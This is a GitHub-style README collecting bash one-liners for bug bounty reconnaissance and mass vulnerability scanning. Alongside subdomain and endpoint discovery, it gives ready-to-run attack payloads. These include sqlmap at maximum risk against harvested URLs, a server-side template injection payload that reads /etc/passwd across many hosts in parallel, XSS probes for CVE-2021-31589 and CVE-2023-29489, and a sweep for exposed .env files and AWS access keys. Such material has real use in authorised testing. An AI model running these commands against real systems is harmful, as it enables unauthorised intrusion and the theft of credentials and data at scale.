 # Oneliner-Bugbounty
A collection oneliner scripts for bug bounty

## List tools
- [Subfinder](https://github.com/projectdiscovery/subfinder)
- [Naabu](https://github.com/projectdiscovery/naabu)
- [httpx](https://github.com/projectdiscovery/httpx)
- [Nuclei](https://github.com/projectdiscovery/nuclei)
- [Waybackurls](https://github.com/tomnomnom/waybackurls)
- [DNSProbe](https://github.com/projectdiscovery/dnsprobe)
- [gf](https://github.com/tomnomnom/gf)
- [sqlmap](https://github.com/sqlmapproject/sqlmap)
- [qsreplace](https://github.com/tomnomnom/qsreplace)
- [hakrawler](https://github.com/hakluke/hakrawler)
- [Puredns](https://github.com/d3mondev/puredns)
- [GauPlus](https://github.com/bp0lr/gauplus)
- [uro](https://github.com/s0md3v/uro)

### Auto scanner

```bash
subfinder -d site.com -all | naabu | httpx | nuclei -t nuclei-templates
```

### Finding files (For example in here .json file)

```bash
subfinder -d site.com -all | naabu | httpx | waybackurls | grep -E ".json(?:onp?)?$"
```

### Find interesting subdomain (For example like admin.staging.example.com) 

```bash
subfinder -d site.com -all | dnsprobe -silent | cut -d ' ' -f1 | grep --color 'dmz\|api\|staging\|env\|v1\|stag\|prod\|dev\|stg\|test\|demo\|pre\|admin\|beta\|vpn\|cdn\|coll\|sandbox\|qa\|intra\|extra\|s3\|external\|back'
```

### Find SQL injection at scale

```bash
subfinder -d site.com -all -silent | waybackurls | sort -u | gf sqli > gf_sqli.txt; sqlmap -m gf_sqli.txt --batch --risk 3 --random-agent | tee -a sqli.txt
```

### Find open redirects at scale

```bash
subfinder -d site.com -all -silent | waybackurls | sort -u | gf redirect | qsreplace 'https://example.com' | httpx -fr -title --match-string 'Example Domain'
```

### Find SSTI at scale

```bash
echo "domain" | subfinder -silent | waybackurls | gf ssti | qsreplace "{{''.class.mro[2].subclasses()[40]('/etc/passwd').read()}}" | parallel -j50 -q curl -g | grep  "root:x"
```

### Scanning top exploited vulnerabilities according to CISA

```bash
subfinder -d site.com -all -silent | httpx -silent | nuclei -rl 50 -c 15 -timeout 10 -tags cisa -vv
```

### Bruteforce subdomains

```bash
subfinder -d site.com -all -silent | httpx -silent | hakrawler | tr "[:punct:]" "\n" | sort -u > wordlist.txt

puredns bruteforce wordlist.txt site.com -r resolvers.txt -w output.txt
```

### Finding Cross-Site Scripting (XSS) using KnoXSS API

```bash
echo "domain" | subfinder -silent | gauplus | grep "=" | uro | gf xss | awk '{ print "curl https://knoxss[.]me/api/v3 -d \"target="$1 "\" -H \"X-API-KEY: APIKNOXSS\""}' | sh
```

### CVE-2021-31589

```bash
cat subs.txt | while read host do; do curl -sk "$host/appliance/login.ns?login%5Bpassword%5D=test%22%3E%3Csvg/onload=alert(document.domain)%3E&login%5Buse_curr%5D=1&login%5Bsubmit%5D=Change%20Password" | grep -qs '"><svg/onload=alert(document.domain)>' && echo "$host: Vuln" || echo "$host: Not Vuln"; done
```

### CVE-2023-29489

```bash
subfinder -d target.com -silent -all | httpx -silent -ports http:80,https:443,2082,2083 -path 'cpanelwebcall/<img%20src=x%20onerror="prompt(document.domain)">aaaaaaaaaa' -mc 400
``` 

### Clean list of host, port, and version

```bash
mkdir nmap; cat targets.txt | parallel -j 35 nmap {} -sTVC -host-timeout 15m -oN nmap/{} -p 22,80,443,8080 --open > /dev/null 2>&1; cd nmap; grep -Hari "/tcp" | tee -a ../services.txt; cd ../
```

### Waybackurls validator

```bash
waybackurls http://example.com | grep "url" | xargs -n 1 curl -s -o /dev/null -w "%{http_code} > %{url_effective}\n" | sort
```

### Extract endpoints from JS (Part 1)

```bash
curl -L -k -s https://www.example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | awk -F '//' '{if(length($2))print "https://"$2}' | sort -fu | xargs -I '%' sh -c "curl -k -s \"%\" | sed \"s/[;}\)>]/\n/g\" | grep -Po \"(['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})|(\.(get|post|ajax|load)\s*\(\s*['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})\"" | awk -F "['\"]" '{print $2}' | sort -fu
```

### Extract endpoints from JS (Part 2)

```bash
curl -Lks https://example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | sed -r "s/^src['\"]?[=:]['\"]//g" | awk -v url=https://example.com '{if(length($1)) if($1 ~/^http/) print $1; else if($1 ~/^\/\//) print "https:"$1; else print url"/"$1}' | sort -fu | xargs -I '%' sh -c "echo \"\n##### %\";wget --no-check-certificate --quiet \"%\"; basename \"%\" | xargs -I \"#\" sh -c 'linkfinder.py -o cli -i #'"
```

### Extract endpoints from JS (Part 3)

```bash
curl -Lks https://example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | sed -r "s/^src['\"]?[=:]['\"]//g" | awk -v url=https://example.com '{if(length($1)) if($1 ~/^http/) print $1; else if($1 ~/^\/\//) print "https:"$1; else print url"/"$1}' | sort -fu | xargs -I '%' sh -c "echo \"\n##### %\";wget --no-check-certificate --quiet \"%\";curl -Lks \"%\" | sed \"s/[;}\)>]/\n/g\" | grep -Po \"('#####.*)|(['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})|(\.(get|post|ajax|load)\s*\(\s*['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})\" | sort -fu" | tr -d "'\""
```

### Extract endpoints from JS (Part 4)

```bash
curl -Lks https://example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | sed -r "s/^src['\"]?[=:]['\"]//g" | awk -v url=https://example.com '{if(length($1)) if($1 ~/^http/) print $1; else if($1 ~/^\/\//) print "https:"$1; else print url"/"$1}' | sort -fu | xargs -I '%' sh -c "echo \"'##### %\";curl -k -s \"%\" | sed \"s/[;}\)>]/\n/g\" | grep -Po \"('#####.*)|(['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})|(\.(get|post|ajax|load)\s*\(\s*['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})\" | sort -fu" | tr -d "'\""
```

### Find Access Keys for IAM

```bash
echo example.com | subfinder -silent -all | httpx -silent -path ".env",".mysql_history","echo $(echo $(</dev/stdin) | cut -d "." -f2).sql" -mc 200 -ports 80,443,8080,8443 | grep -E -i "AKIA[A-Z0-9]{16}"
```

### Subdomain enumeration with Spyse API

```bash
curl -XGET "https://api.sypse.com/v3/data/domain/subdomain?limit=100&offset=100&domain=example.com" -H "Accept: application/json" -H "Authorization: Bearer TOKEN_HERE" 2>/dev/null | jq '.data.items | .[] | .name' | sed -e 's/^"//' -e 's/"$//' | grep example.com
```

### Find some interested like apikey, password, etc
```bash
grep -RiE "pass|key|api|secret" *
```
### Find API, url in js file
```bash
grep -o -E "(https?://)?/?[{}a-z0-9A-Z_\.-]{2,}/[{}/a-z0-9A-Z_\.-]+"
```

## References
- [ReconOne](https://twitter.com/ReconOne_)
- [jdksec](https://twitter.com/jdksec/status/1236891532256575488)
- [atikqur007](https://twitter.com/atikqur007/status/1253235713023320064)
- [ofjaaah](https://twitter.com/ofjaaah/status/1532581839344394241)
- [pikpikcu](https://twitter.com/sec715/status/1295216521501908992)
- [gwen001](https://gist.github.com/gwen001/0b15714d964d99c740a7e8998bd483df)
- [sazekodzeb](https://twitter.com/sazekodzeb/status/1535967868390711302)
- [TheDarkSideOps](https://twitter.com/TheDarkSideOps/status/1310744404605501441)
